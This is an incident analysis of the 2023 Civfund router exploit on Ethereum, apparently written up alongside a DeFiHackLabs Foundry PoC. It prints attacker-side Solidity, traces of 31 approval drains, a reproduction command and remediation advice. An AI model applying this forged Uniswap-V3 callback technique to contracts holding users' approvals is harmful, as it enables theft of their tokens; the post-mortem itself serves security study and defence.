



# Civfund (0xf485) Exploit — Forged Uniswap-V3 `mint` Callback Drains User Approvals

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo contains many
> unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt). PoC: [test/Civfund_exp.sol](test/Civfund_exp.sol).
>
> **Source caveat:** the vulnerable contract
> [`0x7CAEC5E4a3906d0919895d113F7Ed9b3a0cbf826`](https://etherscan.io/address/0x7CAEC5E4a3906d0919895d113F7Ed9b3a0cbf826#code)
> is **unverified** on Etherscan (confirmed via the Etherscan V2 `getsourcecode`
> API — `"Contract source code not verified"`), so the `sources/` directory is
> empty. The code shown below is **reconstructed from the on-chain execution
> trace**, where the call/storage behaviour is unambiguous. It is the logic the
> bytecode demonstrably runs, not a copy of audited Solidity.

---

## Key info

| | |
|---|---|
| **Loss** | **~$165K** — token approvals drained from **31 victim accounts** (USDT, USDC, SHIB, BONE, WOOF, LEASH, SANI, ONE, CELL) |
| **Vulnerable contract** | Civfund / "0xf485" router — [`0x7CAEC5E4a3906d0919895d113F7Ed9b3a0cbf826`](https://etherscan.io/address/0x7CAEC5E4a3906d0919895d113F7Ed9b3a0cbf826) (unverified) |
| **Victims** | 31 EOAs/contracts that had granted the router an ERC-20 allowance (see [test/Civfund_exp.sol:34-66](test/Civfund_exp.sol#L34-L66)) |
| **Attacker EOA** | [`0xc0ccff0b981b419e6e47560c3659c5f0b00e4985`](https://etherscan.io/address/0xc0ccff0b981b419e6e47560c3659c5f0b00e4985) |
| **Attacker contract** | [`0xf466f9f431aea853040ef837626b1c59cc963ce2`](https://etherscan.io/address/0xf466f9f431aea853040ef837626b1c59cc963ce2) |
| **Attack tx** | [`0xc42fc0e22a0f60cc299be80eb0c0ddce83c21c14a3dddd8430628011c3e20d6b`](https://etherscan.io/tx/0xc42fc0e22a0f60cc299be80eb0c0ddce83c21c14a3dddd8430628011c3e20d6b) |
| **Chain / block / date** | Ethereum mainnet / 17,646,142 (PoC forks 17,646,141) / **2023-07-08** |
| **Compiler (PoC)** | Solidity 0.8.34 (DeFiHackLabs harness; victim contract itself is unverified) |
| **Bug class** | Untrusted-callback / arbitrary-`transferFrom` — the router's `uniswapV3MintCallback` trusts `msg.sender` to be a real V3 pool and pulls tokens from an attacker-chosen `payer` |

---

## TL;DR

Civfund's router contract is a Uniswap-V3 "minting" wrapper. When it adds liquidity
on behalf of a user it calls `pool.mint(...)`; the genuine pool then re-enters the
router via the standard `uniswapV3MintCallback(amount0, amount1, data)`, and the
router pays the pool by pulling the user's tokens with `transferFrom(payer, pool, amount)`.

The router makes **two fatal trust assumptions** in that callback:

1. It treats `msg.sender` of `uniswapV3MintCallback` as a legitimate Uniswap-V3
   pool and reads `token1()` / token addresses **from `msg.sender` itself**.
2. It pulls the tokens from a **`payer` address decoded out of the attacker-supplied
   `data` argument**, using whatever ERC-20 allowance that payer previously granted
   the router.

Neither assumption is enforced. The attacker therefore:

1. Deploys a contract that **pretends to be a Uniswap-V3 pool** — it implements
   `mint(...)`, `token1()`, and the callback re-entry.
2. Calls the router's public entry point (selector `0x5ffe72b7`) passing **its own
   contract as the pool**. The router stores the attacker as the active pool and
   calls back into `attacker.mint(...)`.
3. From inside that fake `mint`, the attacker calls the router's
   `uniswapV3MintCallback(0, victimBalance, abi.encode(victim))` directly.
4. The router reads `token1()` **from the attacker** (returning whatever token the
   victim approved) and executes `token.transferFrom(victim, attacker, victimBalance)`.

Because the router was previously approved by 31 different users, the attacker simply
loops over all of them, draining each one's full approved balance — **~$165K** total
across USDT, USDC, SHIB, BONE, WOOF, LEASH, SANI, ONE and CELL.

No flash loan, no price manipulation, no capital — pure "the router will `transferFrom`
anyone's approval to me if I ask through its callback."

---

## Background — what the router does

Civfund (the "0xf485" / Civfund vaults project) ran an on-chain router that managed
Uniswap-V3 concentrated-liquidity positions for its users. The standard Uniswap-V3
liquidity-provisioning flow is:

```
caller → Router.someMint(...)
              Router → Pool.mint(recipient, tickLower, tickUpper, amount, data)
                           Pool → Router.uniswapV3MintCallback(amount0, amount1, data)
                                       Router → token0.transferFrom(payer, Pool, amount0)
                                       Router → token1.transferFrom(payer, Pool, amount1)
              (Pool verifies it actually received the tokens, then mints LP)
```

This is the canonical Uniswap-V3 `PeripheryPayments` / `LiquidityManagement` pattern.
The **security of the entire pattern rests on the callback being invoked only by a
canonical pool** — Uniswap's own periphery enforces this with
`CallbackValidation.verifyCallback(factory, PoolKey)`, which recomputes the pool's
address from the factory + token pair + fee and reverts if `msg.sender` doesn't match.

The Civfund router **omitted that verification**. It used `msg.sender` directly as the
"pool" and trusted the `data` blob to name the `payer`. Users had granted the router
ERC-20 allowances (often `type(uint256).max`) so it could move their tokens into pools
on their behalf — which is exactly the standing approval the attacker weaponised.

On-chain facts at the fork block (from the trace):

| Fact | Value |
|---|---|
| Router (vulnerable) | `0x7CAEC5E4a3906d0919895d113F7Ed9b3a0cbf826` (unverified) |
| Public entry selector | `0x5ffe72b7` (non-standard; not in 4byte.directory) |
| Victims with live allowance | **31** distinct accounts |
| Tokens drained | USDT, USDC, SHIB, BONE, WOOF, LEASH, SANI, ONE, CELL |
| Attacker working capital | **0** (no funds, no flash loan) |

---

## The vulnerable code

> Reconstructed from the execution trace ([output.txt:1606-1660](output.txt)).
> The victim is unverified; the Solidity below is the behaviour the bytecode runs.

### 1. The public entry point calls back into the caller-supplied "pool"

The attacker invokes selector `0x5ffe72b7` with the 4th argument set to **its own
address** ([test/Civfund_exp.sol:235-240](test/Civfund_exp.sol#L235-L240)):

```solidity
// Attacker side — callVulnerableContract():
address(VulnerableContract).call(
    abi.encodeWithSelector(bytes4(0x5ffe72b7), 0, 0, 0, address(this), 0, 0, 0)
);                                          //               ^^^^^^^^^^^^^ "pool" = attacker
```

In the trace this argument (`0x7fa9385b…`, the attacker contract) is **stored into the
router's slot 151** as the "active pool", then the router calls
`mint(...)` *on that address* — i.e. on the attacker:

```text
[170279] 0x7CAEC5…cbf826::5ffe72b7(… 7fa9385be102ac3eac297483dd6233d62b3e1496 …)
   ├─ ContractTest::mint(0x7CAEC5…cbf826, 0, 0, 0, 0x…18b5f62c…)   ← router calls attacker.mint()
   │   ⋮
   storage changes:
     @ 151: 0 → 0x…7fa9385be102ac3eac297483dd6233d62b3e1496        ← attacker recorded as "pool"
```

So the reconstructed router logic is roughly:

```solidity
// Reconstructed — NOT verified source
function someMint(uint a, uint b, uint c, address pool, uint d, uint e, uint f) external {
    activePool = pool;                       // slot 151 — caller fully controls this
    IUniV3Pool(pool).mint(pool, 0, 0, 0, ""); // ⚠️ calls back into an attacker contract
    // ... position bookkeeping ...
}
```

### 2. The callback reads the token from `msg.sender` and pulls from an arbitrary `payer`

From inside the attacker's fake `mint`, the attacker calls the router's callback
directly ([test/Civfund_exp.sol:242-248](test/Civfund_exp.sol#L242-L248)):

```solidity
// Attacker side — invoked from within the fake mint() re-entry:
function uniswapV3MintCallback(uint256 num) internal {
    VulnerableContract.uniswapV3MintCallback(
        0,                                   // amount0
        victimsAssets[num].balanceOf(victims[num]),  // amount1 = victim's full balance
        abi.encode(victims[num])             // data    = the payer the router will charge
    );
}
```

The router's callback then ([output.txt:1611-1622](output.txt)):

```text
[44431] 0x7CAEC5…cbf826::uniswapV3MintCallback(0, 45367286577, 0x…18b5f62c…)
   ├─ ContractTest::token1()  [staticcall]            ← router asks msg.sender (attacker) for the token
   │   └─ ← USDT: [0xdAC17F958D2ee523a2206206994597C13D831ec7]
   ├─ USDT::transferFrom(0x18b5f62c…  →  0x7FA9385b…(attacker), 45367286577)  ← victim drained
   storage changes:
     @ 151: 0x…7fa9385b… → 0                          ← active-pool slot cleared (re-entrancy latch)
```

So the reconstructed callback is roughly:

```solidity
// Reconstructed — NOT verified source
function uniswapV3MintCallback(uint256 amount0, uint256 amount1, bytes calldata data) external {
    require(msg.sender == activePool);       // slot 151 — but attacker SET activePool to itself
    address payer = abi.decode(data, (address));         // ⚠️ attacker-chosen victim
    address token1 = IUniV3Pool(msg.sender).token1();    // ⚠️ token read from the attacker
    IERC20(token1).transferFrom(payer, recipient, amount1); // ⚠️ moves the victim's approval
    activePool = address(0);                 // clear latch
}
```

Every `⚠️` line is a missing trust check. The lone `require(msg.sender == activePool)`
is **useless** because the attacker controls `activePool` — it set the slot to its own
address one frame earlier.

### 3. The attacker's "pool" simply returns the next victim's token

The attacker's `token1()` is a moving target that hands the router exactly the token
the current victim approved ([test/Civfund_exp.sol:231-233](test/Civfund_exp.sol#L231-L233)):

```solidity
function token1() external view returns (address) {
    return address(victimsAssets[counter]);   // whatever token THIS victim approved
}
```

---

## Root cause — why it was possible

A Uniswap-V3 mint callback is a **"pay me back" message that a pool sends to its
periphery**. Its security model assumes:

> Only a canonical Uniswap-V3 pool can ever call `uniswapV3MintCallback`, and the
> periphery pays *its own caller's* obligation, from a payer the periphery itself
> chose.

The Civfund router broke both halves of that model:

1. **No callback authentication.** It never verified that `msg.sender` is a real
   Uniswap-V3 pool (no `CallbackValidation.verifyCallback`, no factory check, no
   `getPool` lookup). Anyone can implement a contract named "pool" and call
   `uniswapV3MintCallback` directly, or — as here — make the router call *them* first
   and then re-enter the callback.

2. **Attacker-controlled `payer`.** The address whose tokens get pulled is decoded
   from the `data` blob the **caller** supplied. There is no binding between `payer`
   and the actual liquidity provider / `msg.sender` of the original action. So the
   attacker names *any* address that ever approved the router.

3. **Token identity sourced from the untrusted "pool".** Because `token1()` is read
   from `msg.sender`, the attacker chooses **which** of the victim's approvals to spend
   — they just return the token address that victim happens to have approved.

4. **Standing infinite approvals.** Civfund's UX had users `approve(router, max)` so it
   could LP for them. That allowance is exactly the resource the attacker spends. The
   bug converts "I approved the router to manage my liquidity" into "the router will
   hand my entire balance to anyone who asks nicely."

Composed together: a callback that authenticates nothing + a payer the caller chooses +
a token the caller chooses + 31 standing approvals = a permissionless `transferFrom`
oracle for every approval the router holds.

---

## Preconditions

- The victim must have an **active ERC-20 allowance to the router** (`allowance(victim, router) ≥ amount`). All 31 targets did; several show `type(uint256).max` approvals in the trace (e.g. BONE at [output.txt:1670-1673](output.txt), where the approval slot is `0xffff…ffff`).
- The victim must hold a balance to pull (`balanceOf(victim) > 0`). The attacker reads each victim's *live* balance via `balanceOf` and drains exactly that amount.
- **No capital, no flash loan, no price/oracle manipulation, no timing window.** The exploit is a single transaction that loops 31 times, each iteration draining one victim. The PoC reproduces it verbatim with `for (i in victims) callVulnerableContract()` ([test/Civfund_exp.sol:117-120](test/Civfund_exp.sol#L117-L120)).

---

## Attack walkthrough (with on-chain numbers from the trace)

Each of the 31 iterations follows the identical 4-hop pattern. Using **victim #0**
(`0x18b5f62c…`, asset USDT) as the worked example, from
[output.txt:1607-1633](output.txt):

| Hop | Call | Effect |
|---|---|---|
| 1 | Attacker → `Router.0x5ffe72b7(0,0,0, attacker, 0,0,0)` | Router records attacker as "pool" in slot 151, then calls back `attacker.mint(...)` |
| 2 | Router → `attacker.mint(router, 0,0,0, data)` | Attacker's fake `mint` re-enters the router's callback |
| 3 | Attacker → `Router.uniswapV3MintCallback(0, 45,367.286577 USDT, abi.encode(victim#0))` | Router reads `token1()` from attacker → **USDT**; decodes `payer` = victim#0 |
| 4 | Router → `USDT.transferFrom(victim#0, attacker, 45,367.286577)` | Victim's USDT approval spent; tokens land on attacker |

The whole-attack ground-truth table (every iteration is one `0x5ffe72b7` call; amounts
are the victim's full balance at that block, taken directly from the `transferFrom`
events in [output.txt](output.txt)):

| # | Victim | Token | Amount drained | Trace line |
|---|--------|-------|---------------:|-----------:|
| 0 | `0x18b5f62c…` | USDT | 45,367.286577 | [1614](output.txt) |
| 1 | `0x22F6b9Cc…` | USDT | 28,764.158349 | [1641](output.txt) |
| 2 | `0x783e2F71…` | BONE | 20,121.200201 | [1668](output.txt) |
| 3 | `0x8F159f13…` | WOOF | 37,656,666.0 | [1697](output.txt) |
| 4 | `0x6a6597CD…` | LEASH | 39.195460 | [1724](output.txt) |
| 5 | `0x899b1188…` | SANI | 2,300,968,380.79 | [1752](output.txt) |
| 6 | `0x4035918D…` | USDT | 8,552.701118 | [1779](output.txt) |
| 7 | `0x46DaD8f6…` | USDT | 4,200.322009 | [1806](output.txt) |
| 8 | `0x7b05363f…` | USDT | 4,089.486430 | [1833](output.txt) |
| 9 | `0xC21A3B81…` | ONE | 1,246,126,972,598.5 | [1860](output.txt) |
| 10 | `0x26d61E57…` | CELL | 10,966.052921 | [1894](output.txt) |
| 11 | `0x71f69A56…` | USDT | 2,504.028436 | [1923](output.txt) |
| 12 | `0xC5CC992A…` | USDT | 2,053.619900 | [1950](output.txt) |
| 13 | `0x498C3274…` | USDT | 2,032.709923 | [1977](output.txt) |
| 14 | `0x7b05363f…` | USDC | 1,900.052720 | [2007](output.txt) |
| 15 | `0x32923bF5…` | SHIB | 238,807,361.82 | [2036](output.txt) |
| 16 | `0x0a78FBeb…` | ONE | 495,501,876,673.7 | [2065](output.txt) |
| 17 | `0xCfd3eF97…` | LEASH | 4.017745 | [2099](output.txt) |
| 18 | `0x0e1DF04f…` | USDT | 1,146.338358 | [2127](output.txt) |
| 19 | `0xD156a9E6…` | USDT | 1,145.341907 | [2154](output.txt) |
| 20 | `0x512e9701…` | ONE | 354,860,592,616.9 | [2181](output.txt) |
| 21 | `0xbc1843A7…` | USDT | 901.240190 | [2215](output.txt) |
| 22 | `0x853fd548…` | USDT | 993.000000 | [2242](output.txt) |
| 23 | `0xF2cdD8b1…` | ONE | 271,222,002,576.7 | [2269](output.txt) |
| 24 | `0x526FeE3a…` | USDT | 816.830464 | [2303](output.txt) |
| 25 | `0xe0643f2C…` | USDT | 679.303994 | [2330](output.txt) |
| 26 | `0x7e585B18…` | ONE | 216,913,762,662.5 | [2357](output.txt) |
| 27 | `0x9EAaeaB7…` | SANI | 160,000,000.15 | [2391](output.txt) |
| 28 | `0x5c7F0639…` | USDT | 662.408656 | [2418](output.txt) |
| 29 | `0xc0E3424A…` | USDT | 505.407723 | [2445](output.txt) |
| 30 | `0x3C0F97eB…` | USDT | 580.914463 | [2472](output.txt) |

(USDC at #14 routes through the FiatTokenV2_1 proxy `delegatecall` —
[output.txt:2007](output.txt) — confirming even proxied tokens are drained.)

### Aggregated attacker balances after the loop

From the `log_named_decimal_uint` outputs ([output.txt:1574-1582](output.txt)):

| Token | Attacker balance after exploit | Approx. USD (Jul 2023) |
|-------|-------------------------------:|-----------------------:|
| USDT  | 104,995.098497 | ~$105.0K (stablecoin) |
| USDC  | 1,900.052720 | ~$1.9K (stablecoin) |
| BONE  | 20,121.200201 | ~$24K (≈$1.2/BONE) |
| WOOF  | 37,656,666 | small |
| LEASH | 43.213205 | ~$13K (≈$300/LEASH) |
| SANI  | 2,460,968,380.95 | small |
| ONE   | 2,481,240,198,843.18 | small |
| CELL  | 10,966.052921 | small |
| SHIB  | 238,807,361.82 | ~$2K (≈$0.000008/SHIB) |

The published loss figure is **~$165K**; the stablecoin legs alone
(USDT + USDC ≈ $107K) plus the liquid alts (BONE, LEASH) make up the bulk, with the
long-tail tokens contributing the remainder. The PoC asserts success simply by
draining every approved victim and logging the resulting balances; the run finishes
`[PASS] testExploit() (gas: 3061932)` ([output.txt:1572](output.txt)).

---

## Profit / loss accounting

| | |
|---|---|
| **Attacker cost** | ~0 (one transaction, gas only — no capital, no flash loan) |
| **Victim loss** | Entire approved balance of **31 accounts** across 9 tokens, ≈ **$165K** |
| **Mechanism** | Direct theft of standing ERC-20 allowances via a forged Uniswap-V3 mint callback |

The attacker's gain equals the victims' loss to the wei — this is not an AMM
mispricing or arbitrage, it is straight appropriation of pre-existing approvals.
Any address with a live allowance to the router at block 17,646,142 was drainable; the
31 in the PoC are the ones that had both an allowance and a non-zero balance.

---

## Diagrams

### Sequence of one drain iteration



### Why the callback is unauthenticated (decision flow)



### Trust assumption: intended vs. exploited



---

## Remediation

1. **Authenticate the callback against the canonical pool.** Use Uniswap's
   `CallbackValidation.verifyCallback(factory, token0, token1, fee)` (or
   `IUniswapV3Factory.getPool(...)`) so `uniswapV3MintCallback` reverts unless
   `msg.sender` is the exact pool the router itself just called `mint` on. Never trust
   an arbitrary `msg.sender` to *be* the pool.
2. **Never let the caller name the `payer`.** The payer must be derived from the
   *original* action's `msg.sender` (the actual liquidity provider), stored in transient
   state when the router initiates the mint, and read back in the callback — not decoded
   from an externally-supplied `data` blob. The current latch (slot 151) stores the
   *caller-supplied pool*, which is precisely backwards.
3. **Do not source token identity from `msg.sender`.** The token(s) to pull must be
   fixed by the router's own position parameters when it starts the mint, not read from
   the (untrusted) "pool" via `token1()`.
4. **Encode + verify a `PoolKey` end-to-end.** The callback's `data` should carry the
   `PoolKey` (tokens + fee) that the router signed off on at call time, and the callback
   must check `getPool(key) == msg.sender`. This binds the whole flow together.
5. **Minimise standing approvals.** Even with the above fixed, prefer pull-then-act in a
   single user-initiated transaction, or `permit`-style scoped approvals, so a router
   bug can never convert an infinite allowance into a free `transferFrom` for third
   parties. Affected users should immediately `approve(router, 0)` for every token.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo
has many unrelated PoCs that fail under a whole-project `forge build`):

```bash
_shared/run_poc.sh 2023-07-Civfund_exp --mt testExploit -vvvvv
```

- **RPC:** an Ethereum **mainnet archive** endpoint is required — the fork pins block
  17,646,141 (one block before the attack tx). `foundry.toml` is configured with the
  `mainnet` alias; point it at any archive RPC that serves historical state at that
  block.
- **Result:** `[PASS] testExploit()` after draining all 31 victims.

Expected tail ([output.txt:1571-1582](output.txt)):

```
Ran 1 test for test/Civfund_exp.sol:ContractTest
[PASS] testExploit() (gas: 3061932)
  Attacker USDT balance after exploit: 104995.098497
  Attacker BONE balance after exploit: 20121.200201296387979654
  Attacker WOOF balance after exploit: 37656666.000000000000000000
  Attacker LEASH balance after exploit: 43.213205257076277282
  Attacker SANI balance after exploit: 2460968380.949404909854754588
  Attacker ONE balance after exploit: 2481240198843.183334367906100917
  Attacker CELL balance after exploit: 10966.052921140276907322
  Attacker USDC balance after exploit: 1900.052720
  Attacker SHIB balance after exploit: 238807361.821278282381675116
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: Hypernative Labs (`@HypernativeLabs`, tweet 1677529544062803969) and Beosin
Alert (`@BeosinAlert`, tweet 1677548773269213184), as cited in the PoC header
([test/Civfund_exp.sol:13-15](test/Civfund_exp.sol#L13-L15)). Loss figure ~$165K per the
DeFiHackLabs entry.*
